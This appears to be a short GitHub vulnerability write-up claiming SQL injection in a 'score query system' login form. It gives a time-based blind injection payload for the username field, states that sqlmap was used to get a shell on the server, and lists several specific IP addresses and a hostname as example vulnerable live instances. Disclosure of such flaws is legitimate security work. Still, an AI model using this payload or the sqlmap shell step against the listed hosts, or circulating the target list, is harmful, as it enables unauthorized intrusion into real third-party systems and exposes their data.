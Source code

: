 # SQL-injection-exists-in-the-score-query-system

Like:http://146.56.236.132:8088

Enter the account password, click login, and fill in the username with payload

![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/48a2084e-437e-4add-803f-b82718890afc)

And use sqlmap
Payload:admin');WAITFOR DELAY '0:0:5'--
![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/63a0fcf9-a7db-41bf-8c9b-acae69bbc830)

SQLmap getshell

![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/c1872442-8ef8-4180-a652-7bdb17fea092)
![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/740b3283-5ea8-4c96-aedf-ccffae7b4c46)

For example:

Like http://119.3.182.189:18081

LIke http://146.56.236.132:8008/

Like http://30.hooy.cc:18080/

Like http://117.36.197.243:8007/
